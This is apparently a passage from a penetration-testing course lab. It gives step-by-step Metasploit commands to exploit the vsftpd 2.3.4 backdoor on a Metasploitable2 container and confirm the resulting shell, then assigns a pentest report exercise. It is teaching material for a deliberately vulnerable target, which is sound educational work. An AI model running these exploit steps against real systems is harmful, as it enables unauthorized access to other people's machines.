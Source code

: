 >Select the vsftpd_234_backdoor exploit in Metasploit.
>```
>use exploit/unix/ftp/vsftpd_234_backdoor
>```
>Explore the required configurations needed with the options command.
>```
>options
>```
>Configure the RHOSTS (remote) option with the IP address of the metasploitable2 container. Make sure to replace VICTIM_IP with the IP address of metasploitable2.
>```
>set RHOSTS VICTIM_IP
>```
>After RHOSTS is set, run the exploit.  If it fails, give it another try or two.
>```
>run
>```
>After the exploit runs, the cursor is on a blank line. Run OS commands to confirm that the reverse shell is working.
>```bash
>whoami
>uname -a
>ip a
>```
>If needed, run sessions and sessions # to identify and use a running session.
>```
>sessions
>sessions 1
>```
>If you are in the shell, and want to return to Metasploit, run the `background` command and "y".
>```
>background
>```

>[!exercise] Exercise 10.4 - Penetration Test
>In this task, you will build on your penetration test from the previous task.  You MUST find two additional vulnerabilities on the Metasploitable2 victim and attempt to exploit them.  Regardless of success, you must document the VSFTPD vulnerabilities AND the two vulnerabilities you identify in a penetration report.  You may use any general format for the report, but it MUST include a background, summary, and findings sections.  Each finding in the report MUST include a description, severity/impact, proof of concept/demonstration with screenshots, and remediation recommendations.  Consider referencing a sample from [https://github.com/juliocesarfort/public-pentesting-reports](https://github.com/juliocesarfort/public-pentesting-reports) to guide the format of your professional report.

[^1]: Missouri gov. calls journalist who found security flaw a “hacker,” threatens to sue - Ars Technica; Oct 14th, 2021; https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/